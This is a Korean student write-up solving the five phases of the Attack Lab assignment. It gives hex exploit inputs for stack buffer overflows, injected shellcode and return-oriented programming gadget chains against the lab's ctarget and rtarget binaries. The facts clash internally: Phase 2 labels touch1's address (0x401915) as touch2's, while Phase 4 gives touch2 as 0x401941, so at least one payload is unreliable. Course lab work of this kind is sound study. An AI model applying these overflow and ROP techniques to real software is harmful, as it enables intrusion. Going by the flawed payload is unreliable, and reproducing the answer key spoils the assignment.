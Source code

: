 # Attack_Lab  / Solution by BaeJuneHyuck , PNU CSE


## <Phase_1>
Phase1,2,3은 ctarget의 getbuf 실행 후 리턴을 통해touch1,2,3을 실행해야 한다.
제공받은 ctarget을 objdump -d 를 사용하여 역어셈블한 뒤, getbuf를 확인하면 sub $0x28, %rsp를 통해 스택에 40바이트를 할당함을 확인할 수 있다. 그렇다면 우리의 목적인 touch1에 접근하기 위해서는 할당 받은 40바이트를 넘어 touch1의 주소를 입력하여 return address를 수정하면 된다. touch1의 주소는 0x401915이며 Byte ordering에 따라서 15 19 40 00 00 00 00 00 을 주소로 입력해주었다. 

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40바이트 채우기 */
15 19 40 00 00 00 00 00 /* touch1의 주소 */
```
위의 내용을 exploit.txt로 생성한 뒤, cat exploit1.txt | ./hex2raw | ./ctarget 을 실행하여
Phase1을 성공적으로 수행하였다.

## <Phase_2>
Phase2에서는 getbuf이후 touch2를 실행하되 인자로 자신의 cookie값을 전달해야 한다. 따라서, touch2의 인자를 조작하기 위하여 mov $0x232add1b, %rdi 가 실행되고, 그 다음 retq 를 통해 touch2로 Instruction Pointer가 이동해야 한다. gets의 입력으로 이를 위한 바이트 코드를 입력하고 리턴 어드레스를 입력 버퍼의 주소로 설정하면, 해당 코드가 실행되도록 할 수 있다. 위의 어셈블리 코드를 phase2.s 로 생성하고, gcc -c phase2로 컴파일, objdump -d phase2.o 를 통하여 역어셈블 하면 바이트 코드 48 c7 c7 1b dd 2a 23 / c3 를 얻을 수 있다. 또한, gdb를 통해 retq 실행 직전의 rsp의 값을 x/s %rsp 명령어로 확인, 그 값에서 0x28을 뺀 값이 입력 버퍼의 주소(즉, 첫번째 명령 실행을 위한 주소)이므로 리턴 어드레스를 덮어씌우기 위한 값을 얻게 된다. 마지막으로 retq의 대상이 되는 touch2의 주소를 덧붙인다. 이들을 조합하여 작성하면 다음과 같다.

```
48 c7 c7 1b dd 2a 23 c3 /* mov $0x232add1b(쿠키값), %rdi // retq */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 나머지 40바이트 채우기 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
15 19 40 00 00 00 00 00 /* touch2의 주소, 리틀 엔디안 */
 ```
 
## <Phase_3>
 Phase2와 달리 쿠키를 정수 값이 아닌 문자열로 전달해 주어야한다. 
기본적인 방법은 위의 phase2와 비슷하다. 원래 함수의 리턴 주소를 입력 버퍼의 주소(rsp-0x28)로 바꿔서 첫번째 명령(movq)을 실행하도록 하였다. 이때 movq 명령에서 phase2와 달리 쿠키 string이 있는 위치, 즉 retq실행 시점의 rsp + 0x10을 rdi에 저장하고 있다. 이후 첫번째 라인의 리턴(c3)에 의해 touch3가 실행된다. 이를 나타내는 입력은 아래와 같다.

```
48 c7 c7 c0 f8 61 55 c3  /* movq 0x5561f8c0(cookie string의 주소), rdi */ 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 여기까지 40바이트 */
88 f8 61 55 00 00 00 00 /* retq 실행 시점의 rsp – 0x28(buf)주소 */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
```

## <Phase_4>
 Phase4, 5는 새로운 실행파일인 rtarget을 실행시켜 ROP를 사용, phase2, 3을 반복한다.
주어진 pdf에서는 2개의 가젯을 이용하여 이를 수행할 수 있고 pop을 이용하여 스택에서 데이터와 가젯의 주소를 사용할 수 있다고 힌트를 주고 있다. 우리가 원하는 동작은 rdi에 쿠키값을 넣고 touch2를 실행하는 것이다. 직접 쿠키의 값을 레지스터에 입력해주는 가젯은 없으니 버퍼 입력을 통해 스택에 쿠키값을 삽입, 입력 되어있는 쿠키를 pop을 사용하여 rdi에 저장해주자. 사용중인 rtarget 파일에서는 popq %rdi의 가젯이 존재하지 않아서 popq %rax를 통해 임시로 rax에 저장 후 movq %rax, %rdi를 통해 rdi에 쿠키값을 입력하였다.
 이제 각각의 가젯을 찾아야 하는데 이들의 바이트 코드는 각각 58 / 48 89 c7 이다. Rtarget 내부의 gadget_farm에서 ‘58’을 검색하면 아래와 같은 코드를 찾을 수 있다.

```
0000000000401aef <getval_379>:
  401aef:	b8 1e 58 90 90       	mov    $0x9090581e, %eax
  401af4:	c3                   	retq
```
58 90 90 c3에서 90은 nop로써 원하는 동작을 하는데 영향을 주지 않는다.
따라서 401aef + 3 (offset)으로 popq rax를 사용할 수 있다.  같은 방법으로 movq %rax %rdi의 가젯도 찾을 수 있으며. 이를 통해 작성된 입력은 아래와 같다.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
f1 1a 40 00 00 00 00 00 /* gadget 1	popq rax */
1b dd 2a 23 00 00 00 00 /* cookie */
f8 1a 40 00 00 00 00 00 /* gadget 2	movq rax rdi */
41 19 40 00 00 00 00 00	/* touch2 의 주소*/
```

## <Phase_5>	
 Phase3에서 사용한 입력들을 가젯을 사용하여 구현하여야 한다. 주어진 pdf는 공식적인 정답은 8개의 가젯을 사용한다고 말해주고 있는데 이를 통해phase_3에서 사용한 movq와 retq가 여러 가젯을 사용하여 구현될 것 임을 알 수 있다. 
먼저 rdi에 쿠키의 주소를 입력해 주어야 하는데, 역시나 이를 직접 수행할 수는 없으며, 직접 버퍼 입력으로 cookie의 string을 입력해주고 그 주소를 pop을 사용하여 레지스터에 전달해주어야 한다. rsp를 rdi에 저장한 뒤 rsp에서 cookie string까지의 거리 48을 rax에 넣으면 두 값을 더한 값이 바로 쿠키의 주소가 된다. 이를 위한 add_xy가 gadget_farm에 친절하게도 존재하는 것을 확인할 수 있고, 이후 gadget7으로 사용하였다.
 구현을 위하여 여러 가젯이 사용되였다. gadget7의 lea (rdi rsi 1), eax를 사용하기 위해서 rsp의 값은 movq를 통해 rsp -> rax ->rdi 순으로 전달되었으며 쿠키 스트링까지의 거리 48은 popq를 사용하여 rax에 저장된 뒤, rax->edx->ecx->esi순으로 전달되었다. 이 두 값을 lea를 통해 더한 뒤 eax에 저장해주었고 마지막으로 movq rax rdi를 실행하는 가젯을 통하여 쿠키의 주소를 인자(rdi)로 전달, touch3를 실행하였다. 
 특이한 점으로 5번째 가젯의 바이트코드에는 38 c0이 포함 되어있으나 해당 코드가 실행하는 명령인 cmpb는 레지스터에 영향을 주지 않으므로 원하는 기능을 수행하는데 아무 문제가 되지 않는다. 이를 모두 구현한 입력은 아래와 같다. 

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 /* 40 바이트 */
3f 1b 40 00 00 00 00 00 /* gadget1, movq rsp rax */
f8 1a 40 00 00 00 00 00 /* gadget2, movq rax rdi */
f1 1a 40 00 00 00 00 00 /* gadget3, popq rax */
48 00 00 00 00 00 00 00 /* gap between gadget1 and cookie */
39 1b 40 00 00 00 00 00 /* gadget4, movl eax edx */
8b 1b 40 00 00 00 00 00 /* gadget5, movl edx ecx */ 
a2 1b 40 00 00 00 00 00 /* gadget6, movl ecx */
2a 1b 40 00 00 00 00 00 /* gadget7, lea (rdi rsi 1) eax */
f8 1a 40 00 00 00 00 00 /* gadget8, movq rax */
52 1a 40 00 00 00 00 00 /* touch 3 주소 */
32 33 32 61 64 64 31 62 /* cookie string */
00 00 00 00 00 00 00 00 /* string end */
```
